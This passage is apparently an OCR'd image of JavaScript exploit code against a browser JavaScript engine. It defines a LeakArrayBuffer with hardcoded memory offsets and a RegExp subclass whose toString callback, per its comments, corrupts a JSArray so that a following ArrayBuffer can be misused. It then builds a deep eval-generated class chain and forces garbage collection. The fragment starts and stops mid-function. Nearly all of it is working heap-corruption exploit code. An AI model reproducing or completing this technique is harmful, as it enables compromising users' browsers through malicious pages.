 ```
    this.buffer = null;
    this.buffer_view = null;

    this.page_buffer = null;
    this.page_view = null;

    this.prevent_opt = [];

    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;

    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }

    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);

    new RegExp({ toString: function () { return 'a' } });
    cb(true);

    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );

            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }

    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }

        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }

        return DerivedN;
    })`);

    gc();

```